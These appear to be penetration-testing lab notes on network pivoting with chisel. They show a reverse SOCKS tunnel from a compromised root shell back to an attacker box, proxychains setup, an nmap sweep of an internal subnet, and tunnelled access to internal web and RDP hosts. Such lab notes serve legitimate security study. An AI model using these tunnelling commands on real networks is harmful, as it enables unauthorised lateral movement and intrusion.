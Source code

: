 
---
## Pivoting

---

```Bash

$ ./chisel server -p 8001 --reverse
2024/12/28 03:56:31 server: Reverse tunnelling enabled
2024/12/28 03:56:31 server: Fingerprint 4gMpSAyyTLAqXTiF22e/QNnOyvSib42pCS8UYVSMzbQ=
2024/12/28 03:56:31 server: Listening on http://0.0.0.0:8001
2024/12/28 03:57:55 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

root@DANTE-WEB-NIX01:/home/balthazar/Documents# ./chisel client 10.10.14.3:8001 R:1080:socks 
2024/12/28 00:57:55 client: Connecting to ws://10.10.14.3:8001
2024/12/28 00:57:56 client: Connected (Latency 54.459235ms)

```

```bash
$ sudo nano /etc/proxychains4.conf
```

>At the bottom of the /etc/proxychains.conf add "socks5 127.0.0.1 1080" 

```bash
$ proxychains4 nmap 172.16.1.0/24 | more                    
```

### Sample Chisel Usage

> We can use chisel on any ports ssh would be a good one to establish access on a remote machine as well
> Attacker Box: 172.18.25.2
> Dual-Homed Box: 2.2.2.2/10.10.2.1
> Web Server: 10.10.2.5
> WinBox: 10.10.2.8 

```bash
$ chisel server --socks5 --reverse   # Start server on attacker machine                          
$ ip a s tun0

$ ./chisel client --fingerprint h3214jho89huk134hk12j4h= 172.18.25.2:8080 R:8000:10.10.2.5:80  # Creates a tunnel going in reverse where we can now access port 80 on the remote asset by opening up a web browser on port 8000
$ firefox http://localhost:8000  # We can now see port 80 on 10.10.2.5       

$ ./chisel client --fingerprint h3214jho89huk134hk12j4h= 172.18.25.2:8080 R:socks  # Creates a socks proxy that we can use with proxychains
$ sudo nano /etc/proxychains4.conf  # Add "socks5 127.0.0.1 1080" at the bottom of file, look for port chisel server is bound to from client connection
$ proxychains curl http://10.10.2.5  # Getting info via curl
$ proxychains xfreerdp /v:10.10.2.8 /u:Administrator  # Connect to rdp box


```
